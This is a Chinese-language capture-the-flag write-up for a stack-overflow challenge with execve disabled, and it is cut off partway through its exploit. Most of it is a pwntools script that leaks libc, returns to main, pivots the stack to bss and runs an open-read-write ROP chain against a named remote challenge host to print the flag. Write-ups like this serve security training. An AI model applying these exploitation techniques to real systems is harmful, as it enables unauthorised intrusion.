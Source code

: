 简单的栈溢出，但是禁用了execve，也不允许以下字节：`[0xf0, 0xe0, 0x80, 0x50, 0xb0]`，
为了方便绕过可以先泄露libc，拿gadget，然后回到`main`函数再做一次栈溢出，通过将rop`read`到bss上
（此时就没有限制了，可以写orw的链子到bss上）然后迁移过去就可以

> 这道题的环境疑似有问题，我的脚本3.5（指2.35-0ubuntu**3.5**）能跑，
> 放到我那3.6的容器里改改也能跑（rdx的gadget变了），升级到3.7了，3.6的脚本还能跑，
> 但是远程就是打不通，比较遗憾

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './dyna'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('node5.buuoj.cn', 28461)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.35-0ubuntu3.5_amd64/libc.so.6')
    elf = ELF(EXE)
    gadgets = ROP(elf)
    rdi = gadgets.rdi.address
    leave = gadgets.leave.address
    main = elf.symbols['main']
    putsPlt = elf.plt['puts']
    putsGot = elf.got['puts']
    readPlt = elf.plt['read']

    def delay():
        if lo & 2:
            pause()
        else:
            sleep(0.5)

    # leak libc and return to main
    sh.sendline(b'0'*0x38 + p64(rdi) + p64(putsGot) + p64(putsPlt) + p64(main))
    delay()

    puts = u64(sh.recvline(False) + b'\0\0')
    libcBase = puts - libc.symbols['puts']
    success(GOLD_TEXT(f'Leak libcBase: {hex(libcBase)}'))
    gadgets = ROP(libc)
    openLibc = libcBase + libc.symbols['open']
    rsi = libcBase + gadgets.rsi.address
    rdx = libcBase + gadgets.rdx.address
    flagBss = 0x404100

    # read to bss and then stack pivot to there
    sh.sendline(b'0'*0x30 + p64(flagBss) + p64(rsi) + p64(flagBss) + p64(rdx) + p64(0x100) + p64(readPlt) + p64(leave))
    delay()

    # do orw to output the flag
    sh.sendline(b'flag'.ljust(8, b'\0') + p64(rdi) + p64(flagBss) + p64(rsi) + p64(0) + p64(openLibc) +
                p64(rdi) + p64(3) + p64(rsi) + p64(flagBss + 0x100) + p64(rdx) + p64(0x100) + p64(readPlt) +
```